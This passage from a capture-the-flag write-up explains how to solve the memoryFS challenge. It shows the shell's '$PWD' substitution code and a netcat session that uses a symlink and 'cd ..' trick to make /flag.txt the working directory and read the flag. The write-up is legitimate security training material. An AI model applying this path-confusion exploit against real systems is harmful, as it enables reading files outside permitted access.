 ```python
for i in range(1, len(tokens)):
  if tokens[i] == "$_":
    tokens[i] = last_command
  elif tokens[i] == "$0":
    tokens[i] = tokens[0]
  elif tokens[i] == "$?":
    tokens[i] = str(last_ret)
  elif tokens[i] == "$#":
    tokens[i] = str(len(tokens) - 1)
  elif tokens[i] == "$PWD":
    tokens[i] = "/" + "/".join(self.displaycwd)
```

However, $PWD seems to be capable in getting the path to /flag.txt. So, we can just create a symlink `/a --> /flag.txt` which allows us to `cd /a/b` (/flag.txt/b). After that, delete the symlink and `cd ..` to resolve back to /flag.txt without us having to ever cd flag.txt. Finally, run the `create_flag` command to remove the directory, because the shell lets us remove the directory we are currently in.

```
└─$ nc memoryfs.chal.idek.team 1337
user@memoryFS:/$ mkdir flag.txt
user@memoryFS:/$ mkdir flag.txt/b
user@memoryFS:/$ ln flag.txt a
user@memoryFS:/$ cd a/b
user@memoryFS:/a/b$ ls
user@memoryFS:/a/b$ rm /a
user@memoryFS:/a/b$ cd ..
user@memoryFS:/flag.txt$ rm /flag.txt/b
user@memoryFS:/flag.txt$ rm /flag.txt
user@memoryFS:/flag.txt$ create_flag
user@memoryFS:/flag.txt$ cat $PWD
idek{sh311_r3wr1t3_sh3n4n1g4ns}
user@memoryFS:/flag.txt$ 
```
